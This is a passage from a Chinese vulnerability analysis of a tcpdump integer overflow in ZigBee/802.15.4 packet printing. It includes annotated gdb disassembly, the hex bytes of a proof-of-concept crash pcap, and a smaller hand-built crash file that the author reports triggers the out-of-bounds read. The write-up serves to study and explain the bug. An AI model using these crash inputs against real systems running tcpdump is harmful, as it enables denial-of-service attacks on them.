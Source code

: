 *注：这里的计算涉及到了ZigBee包格式的问题，感兴趣的朋友可以参考[这个网址](https://www.rfwireless-world.com/Tutorials/Zigbee-MAC-layer-frame-format.html)*

接下来我们直接在`gdb`中步进到`hex_and_ascii_print_with_offset`函数内，看一下长度计算那里的结果是什么。这里从汇编代码比较好：

```assembly
   0x41ad35 <hex_.._offset+21>:	mov    esi,DWORD PTR [esp+0x1b8]	; length:0xfffffff3
   0x41ad3c <hex_.._offset+28>:	mov    edx,DWORD PTR [esp+0x1b4]	; cp: 0x5ed575->0xe7ffffff
=> 0x41ad43 <hex_.._offset+35>:	mov    eax,esi
   0x41ad45 <hex_.._offset+37>:	and    eax,0x1
   0x41ad48 <hex_.._offset+40>:	shr    esi,1	; nshorts: 0x7ffffff9=2147483641
```

注意到除法操作（右移一位）之后，原本的负数变成了极大的正数。

```assembly
0x0041ad6c <+76>:    lea    eax,[edx+esi*2]		; eax: 0x5ed567=0x5ed575+0x7ffffff9*2
   												;			   =0x5ed575-0xe
0x0041ad6f <+79>:    mov    DWORD PTR [esp+0x18],eax	; [esp+0x18]: 0x5ed567
......
0x0041adc0 <+160>:   movzx  esi,BYTE PTR [ecx+0x1]	; 发生漏洞的地方！
0x0041adc4 <+164>:   movzx  edi,BYTE PTR [ecx]
......
0x0041ae9e <+382>:   cmp    ecx,DWORD PTR [esp+0x18]	; ecx: 数据包遍历地址>=0x5ed575
														; [esp+0x18]: 0x5ed567
0x0041aea2 <+386>:   jne    0x41adc0 <hex_and_ascii_print_with_offset+160>
```

注意这里循环停止的判断方式，函数使用`baseAddress+nshorts*2`的方式计算截至地址，但是由于整数溢出，导出结果小于基地址。这就导致判断循环结束的条件无法到达，函数会一直从基地址`0x5ed575`开始遍历，最终访问到未授权的内存地址。

## 3. crash数据包分析

poc的python代码本身并没有什么需要分析的地方，就是把crash数据包的内容写入到了`crash`文>件中，所以主要是看一下`crash`文件的内容。再次贴一下它的内容：

> 0000h:	D4 C3 B2 A1 02 00 04 00 | 00 00 00 F5 FF 00 00 00
> 0010h:	49 00 00 00 E6 00 00 00 | 00 80 00 00 00 00 00 00
> 0020h:	**08 00 00 00** 00 3C 9C 37 | **40 FF** 00 06 A0 72 7F 00
> 0030h:	00 01 7F 00 00 EC 00 01 | E0 1A 00 17 67 2B 2B 2B
> 0040h:	2B 2B 2B 2B 85 C9 03 00 | 00 00 10 A0 26 80 18 27
> 0050h:	78 66 65 24 00 01 00 00 | 40 0C 04 02 08 0A 27 2C
> 0060h:	20 27 00 00 00 00 00 00 | 00 00 01 03 03 04

在**1.4 crash文件介绍**中，我已经简单介绍了该数据包的内容和结构。根据上面对于漏洞的分析，产生漏洞的主要原因就是内容中加粗的两个部分，这两部分的内容导入最终代码计算出来的ieee802.15.4包内容的长度是负数，从而产生整数溢出。

所以该漏洞的出现和`00 3C 9C 37`没有关系，也和`0030h-006Dh`的内容没有关系。

那么下面这个数据包应该也会引发漏洞：

```
0000h:	D4 C3 B2 A1 02 00 04 00 | 00 00 00 F5 FF 00 00 00
0010h:	49 00 00 00 E6 00 00 00 | 00 80 00 00 00 00 00 00
0020h:	08 00 00 00 08 00 00 00 | 40 FF 00 06 A0 72 7F 00
```

我使用上面的数据构建了一个`crash1`文件，在命令行执行`tcpdump -r crash1`，确实引发的漏洞：
